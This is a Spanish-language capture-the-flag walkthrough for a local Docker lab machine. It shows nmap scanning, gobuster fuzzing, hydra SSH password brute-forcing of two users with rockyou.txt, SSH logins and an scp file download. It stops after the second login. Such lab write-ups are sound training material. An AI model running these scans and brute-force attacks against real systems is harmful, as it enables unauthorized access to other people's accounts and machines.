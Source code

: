 
**Autora:** [beafn28](https://www.linkedin.com/in/beatriz-fresno-naumova-3797b931b/)

**Dificultad:** Fácil

**Fecha de creación:** 26/09/2024

--------------------------------

DESPLIEGE

```
bash auto_deploy.sh pequenas-mentirosas.tar
```


![](./images/Pasted%20image%2020241121142826.png)


Tenemos la ip :

```
172.17.0.2
```

---------------------------------------------

Ahora hacemos una mapeo con nmap. 


```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

![](./images/Pasted%20image%2020241121143122.png)

Tenemos esos dos puertos: 22 y 80. 

Miramos el puerto por http. 

![](./images/Pasted%20image%2020241121143434.png)

Encontramos pista. 

Probamos fuzzzing web a ver si nos encuentra otro directorio. 

``` 
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

![](./images/Pasted%20image%2020241121143645.png)

No nos encuentra nada. 

Vamos a probar hacer fuerza bruta a "A".

```
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![](./images/Pasted%20image%2020241121151805.png)

Tenemos el login y la contraseña. 

Ahora intentaremos entrar por ssh. 

```
ssh a@172.17.0.2
```

![](./images/Pasted%20image%2020241121152031.png)

Estamos adentro. 

![](./images/Pasted%20image%2020241121152053.png)

¿Pero quién es "a"?

Vamos a investigar un poco más. 

Nos vamos al directorio donde están los archivos asociados con los servidores, que es `/srv`

![](./images/Pasted%20image%2020241121152442.png)

Nos lo bajamos: 

```
scp a@172.17.0.2:/srv/ftp/* ~/Desktop/
```


![](./images/Pasted%20image%2020241121153452.png)


Investigaremos un poco en esos archivos y encontramos: 


![](./images/Pasted%20image%2020241121153004.png)

Vemos un archivo

![](./images/Pasted%20image%2020241121153943.png)

Spencer puede que podamos hacer un logeo. 

```
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Y tenemos : 

![](./images/Pasted%20image%2020241121154138.png)

```
ssh spencer@172.17.0.2
```

![](./images/Pasted%20image%2020241121154241.png)

Estamos adentro. 